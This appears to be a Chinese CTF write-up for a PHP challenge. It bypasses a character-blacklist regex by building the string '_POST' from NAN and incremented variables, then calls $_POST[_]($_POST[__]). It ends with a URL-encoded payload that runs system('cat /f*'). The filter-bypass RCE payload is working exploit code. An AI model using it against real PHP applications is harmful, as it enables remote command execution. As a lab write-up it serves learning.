 通过脚本爆破还有哪些字符可以使用

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",chr($a))){
        echo chr($a)." ";
    }
}
# $ ' ( ) + , . / ; = [ ] _
?>
```
构造出字母

::: tip 
(_/_) 表达式中的 _ 是 PHP 中的有效变量名，但在这个上下文中它被视为未定义变量。
当未定义变量用于数学运算时，PHP会将其视为0。因此，_/_ 实际上会被计算为 0/0，这是一个无效操作，结果是 NAN（Not A Number）所以可以得到字符`NAN`。(''/'')等效果相同，得到字符`NAN`.
:::

通过判断的布尔值`0`,`1`构造数字，拿出`NAN`字符串里的字母

例如`''==_`，布尔值为`0`，那么`$____=((_/_).'')[''=='$'];`可以拿出`N`

构造`$_POST[_]`,`$_POST[__]`，动态调用函数RCE

师傅们写好的`POST`构造

```php
$____=((_/_).'')[''=='$']; #N
$_____=++$____; #O
++$____; #P
$______=$____; #$______=P
++$____; #Q
++$____; #R
++$____; #S
$_______=$____; #$_______=S
++$____; #T
$________=$____; #$________=T
$_________=$______.$_____.$_______.$________; #POST
$_________='_'.$_________; #_POST
$$_________[_]($$_________[__]); #$_POST[_]($_POST[__];)
```

所以payload是下面这个，里面有`$`,`=`还需要url编码一下
```php
$____=((_/_).'')[''=='$'];$_____=++$____; ++$____;$______=$____; ++$____;++$____;++$____; $_______=$____;++$____;$________=$____;$_________=$______.$_____.$_______.$________;$_________='_'.$_________;$$_________[_]($$_________[__]);
```

这里执行命令的payload

```php
ctf_show=%24____%3D((_%2F_).'')%5B''%3D%3D'%24'%5D%3B%24_____%3D%2B%2B%24____%3B%20%2B%2B%24____%3B%24______%3D%24____%3B%20%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%20%24_______%3D%24____%3B%2B%2B%24____%3B%24________%3D%24____%3B%24_________%3D%24______.%24_____.%24_______.%24________%3B%24_________%3D'_'.%24_________%3B%24%24_________%5B_%5D(%24%24_________%5B__%5D)%3B&_=system&__=cat /f*;
```
